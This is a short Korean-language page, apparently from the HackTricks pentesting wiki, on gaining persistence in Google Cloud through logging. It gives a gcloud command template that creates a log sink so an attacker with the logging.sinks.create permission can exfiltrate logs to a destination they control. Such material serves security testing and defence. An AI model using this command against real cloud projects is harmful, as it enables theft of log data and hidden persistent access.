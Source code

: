 # GCP - 로깅 지속성

{{#include ../../../banners/hacktricks-training.md}}

## 로깅

로깅에 대한 더 많은 정보는 다음에서 확인하세요:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

공격자가 접근할 수 있는 목적지로 로그를 유출하기 위해 싱크를 생성합니다:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
